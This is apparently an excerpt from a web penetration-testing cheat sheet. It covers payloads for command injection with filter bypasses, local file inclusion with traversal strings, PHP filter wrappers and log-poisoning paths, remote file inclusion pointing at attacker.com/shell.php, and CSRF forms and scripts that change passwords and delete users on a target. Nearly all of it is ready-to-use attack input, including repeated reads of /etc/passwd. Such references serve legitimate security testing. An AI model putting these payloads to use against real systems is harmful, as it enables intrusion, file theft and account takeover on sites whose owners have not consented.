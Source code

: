### **Command Injection**

#https://www.hackingarticles.in/commix-command-injection-exploiter-beginners-guide/
```bash
# Basic payloads
; ls -la
| whoami
&& cat /etc/passwd
`cat /etc/passwd`
$(cat /etc/passwd)

# Bypass filters
c'a't /etc/passwd
c\at /etc/passwd
/bin/cat /etc/passwd
```

### **Local File Inclusion (LFI)**
```bash
# Basic LFI
../../../etc/passwd
....//....//....//etc/passwd

# PHP filters
php://filter/convert.base64-encode/resource=index.php
php://filter/read=string.rot13/resource=index.php

# Log poisoning
/var/log/apache2/access.log
/var/log/nginx/access.log
```
### FILE UPLOAD 
https://rodelllemit.medium.com/web-app-pentesting-test-cases-for-file-upload-9b5734a0a144
### **Remote File Inclusion (RFI)**
```bash
# Basic RFI
http://attacker.com/shell.php
ftp://attacker.com/shell.php

# PHP wrappers
data://text/plain;base64,PD9waHAgcGhwaW5mbygpOz8+
expect://ls
```

---

## 🌐 **Phase 4: Web-Specific Vulnerabilities**

### **Cross-Site Request Forgery (CSRF)**
```html
<!-- Basic CSRF -->
<form action="http://target.com/change-password" method="POST">
    <input type="hidden" name="password" value="newpassword">
    <input type="submit" value="Click me">
</form>

<!-- CSRF with AJAX -->
<script>
var xhr = new XMLHttpRequest();
xhr.open('POST', 'http://target.com/api/delete-user', true);
xhr.setRequestHeader('Content-Type', 'application/json');
xhr.send('{"user_id": 1}');
```